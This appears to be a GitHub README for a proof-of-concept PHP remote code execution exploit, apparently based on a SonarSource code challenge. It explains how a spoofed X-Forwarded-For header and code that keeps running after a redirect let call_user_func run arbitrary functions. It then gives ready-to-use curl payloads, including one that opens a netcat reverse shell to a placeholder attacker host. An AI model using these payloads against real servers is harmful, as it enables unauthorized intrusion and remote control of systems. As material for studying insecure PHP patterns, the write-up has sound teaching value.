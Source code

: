 # PHP Remote Code Execution (RCE) PoC
This repository contains a proof-of-concept (PoC) exploit for a vulnerability that allows IP spoofing and Remote Code Execution (RCE) in PHP applications. The vulnerability arises due to improper use of the $_SERVER['HTTP_X_FORWARDED_FOR'] header for IP validation and the use of the call_user_func() function, which allows arbitrary code execution.

# Vulnerability Details
- The application attempts to validate the client’s IP address using the $_SERVER['HTTP_X_FORWARDED_FOR'] header.
- However, an attacker can spoof the IP address by manipulating the X-Forwarded-For header to 127.0.0.1, bypassing the IP validation check.
- If the attacker does not have a valid session ($_SESSION['auth']), the application redirects to error.php.
- However, the header() function does not stop code execution, meaning the code continues running even after the redirect.
- This results in the execution of call_user_func($_GET['cmd'], $_GET['arg']);, allowing an attacker to execute arbitrary PHP functions and potentially compromise the server.

# Exploit Usage
```sh
curl -H "X-Forwarded-For: 127.0.0.1" "http://vulnerable-site.com/vuln.php"
```
```sh
curl -H "X-Forwarded-For: 127.0.0.1" "http://vulnerable-site.com/vuln.php?cmd=system&arg=id"
```
```sh
curl -H "X-Forwarded-For: 127.0.0.1" "http://vulnerable-site.com/vuln.php?cmd=system&arg=nc -e /bin/sh attacker-ip 4444"
```


## References
https://www.sonarsource.com/knowledge/code-challenges/advent-calendar-2022/
